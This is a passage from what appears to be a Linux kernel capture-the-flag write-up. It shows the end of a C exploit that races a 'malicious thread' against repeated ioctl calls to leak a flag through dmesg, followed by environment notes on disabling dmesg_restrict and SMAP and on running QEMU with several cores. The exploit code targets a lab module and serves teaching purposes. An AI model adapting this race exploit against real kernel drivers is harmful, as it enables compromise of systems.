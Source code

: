 ```c
t.len = 33;
    t.flag = buf;

/ / New malicious thread
    pthread_create(&t1, NULL, change_attr_value,&t);

    for(int i=0;i<TRYTIME;i++){

        ret = ioctl(fd, 0x1337, &t);

        t.flag = buf;

    }

    finish = 1;

    pthread_join(t1, NULL);

    close(fd);

    puts("[+]result is :");

    system("dmesg | grep flag");

    return 0;

}

```



### Other
There are a few points to note when this topic is deployed in the environment.


First, you need to turn off `dmesg_restrict`, otherwise you can&#39;t view the `printk` information. The specific operation is to add in the startup script:


```bash

echo 0 > /proc/sys/kernel/dmesg_restrict

```



Second, do not enable `SMAP` protection when configuring QEMU startup parameters, otherwise direct access to user state data in the kernel will cause `kerne panic`.


Also, when configuring the QEMU startup parameters, you need to configure non-single-core single-thread startup, otherwise the race condition in the title cannot be triggered. The specific operation is to increase the number of cores in the startup parameters, such as:
